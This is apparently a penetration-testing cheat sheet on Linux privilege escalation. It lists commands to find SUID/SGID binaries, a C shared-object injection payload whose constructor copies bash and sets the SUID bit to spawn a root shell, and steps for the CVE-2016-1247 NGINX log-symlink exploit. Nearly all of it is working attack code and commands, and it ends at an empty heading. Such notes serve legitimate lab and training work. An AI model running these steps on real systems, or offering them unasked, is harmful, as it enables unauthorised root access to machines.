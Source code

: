### SUID / SGID

```bash
find / -type f -perm -4000 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
# Search for both SUID and SGID files
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

#### Shared Object Injection

```bash
# Use strace on a library found from the find command
strace /usr/local/bin/suid-so 2>&1
# Look for "No such file or directory" in the output
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
# In the output, if there is one that can be wrriten to, it can be exploited
# Create a .c script to compile and override
```

{% code title="libcalc.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
{% endcode %}

```bash
# Compile the file with the below
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
# Execute
/usr/local/bin/suid-so
```

#### Binary Symlinks - NGINX

[https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)

```bash
# After running sudo -l, if sudo has SUID bit and NGINX is of vulenrable version
ls -la /var/log/nginx  # If the directory can be written to...
# Exploit
./nginxed-root.sh /var/log/nginx/error.log  # Using script from exploit reference
# Wait for or execute action to force 
# Use SSH to log into the machine again, then execute...
invoke-rc.d nginx rotate >/dev/null 2>&
```

#### Environment Variables
